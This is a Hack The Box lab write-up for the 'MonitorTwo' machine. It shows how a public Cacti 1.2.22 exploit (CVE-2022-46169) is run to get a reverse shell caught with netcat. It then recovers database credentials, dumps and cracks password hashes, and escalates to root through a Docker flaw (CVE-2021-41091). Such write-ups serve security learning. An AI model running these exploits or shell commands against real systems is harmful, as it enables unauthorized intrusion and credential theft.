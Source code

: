 ```yaml
---
layout: single
title: MonitorTwo - Hack The Box
date: 2023-06-30
excerpt: "Monitor Two is an easy machine from hackthebox. In carrying out the enumeration process from the target, we can identify the out-dated version of cacti. by exploiting, we can easily access the server. to get to marcus, we can find the entrypoint.sh file with the user and password information for the database. to get root privileges, we can use the docker service to exploit it. because that version of docker has a vulnerability of CVE-2021-41091"
header:
  teaser: /assets/img/monitortwo/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - cactus
    - cacti
    - docker
    - weak permissions
    - CVE-2021-41091
    - CVE-2022-46169


toc: true
toc_sticky: true
---
```

![](/assets/img/monitortwo/cover.png)

## Synopsis

Monitor Two is an easy machine from hackthebox. In carrying out the enumeration process from the target, we can identify the out-dated version of cacti. by exploiting, we can easily access the server. to get to marcus, we can find the entrypoint.sh file with the user and password information for the database. to get root privileges, we can use the docker service to exploit it. because that version of docker has a vulnerability of CVE-2021-41091.

## Portscan

```powershell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconnaisance

first thing that we have to do is check http on port 80, because only two ports open.

### HTTP

as you can see, there is login page based on cacti. i already use admin:password for credentials with no luck. if you check the Version 1.2.22 on google, there is a lot of public exploitation script.

![](/assets/img/monitortwo/1.png)

you can clone this exploit in [here](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22). Execute this command below will lead you into **container**.

```bash
python exploit.py -u http://10.10.11.211/ --LHOST=10.10.14.57 --LPORT=9000

#catch exploit using netact
rlwrap nc -lnvp 9000
```
![](/assets/img/monitortwo/2.png)

inside containerd we cannot do a lot of things, i was uploaded linpeas.sh and given output name with result.txt. inside the output file, i found two important files such as:

![](/assets/img/monitortwo/3.png)

inside entrypoint.sh we can discover mysql command with username and password

```bash
cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi
```

in my case, i cannot run mysql command without tag -e. so i just dump tables **user_auth** and get the salt password for user `marcus` and `admin` with  command:

```bash
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
```

![](/assets/img/monitortwo/4.png)

after found this salt password, we can used tools such as `john` or `hashcat`, but in this time i prefered use `john`.

```bash
john hash -w=/usr/share/wordlists/rockyou.txt 
```

![](/assets/img/monitortwo/5.png)

## Privilege Escalation

run command `docker version` will show the way to gain root access.

![](/assets/img/monitortwo/6.png)

This version `20.10.5+dfsg1` affected of [CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091) and you can find the exploit script in [here](https://github.com/UncleJ4ck/CVE-2021-41091). Uploaded into target and run exploit script will given you a container with root access.

![](/assets/img/monitortwo/7.png)

you can access it with command:

```bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85│
f73fdba372cb2f1/merged/bin/bash -p
```

![](/assets/img/monitortwo/8.png)

## Refferencess

```console
```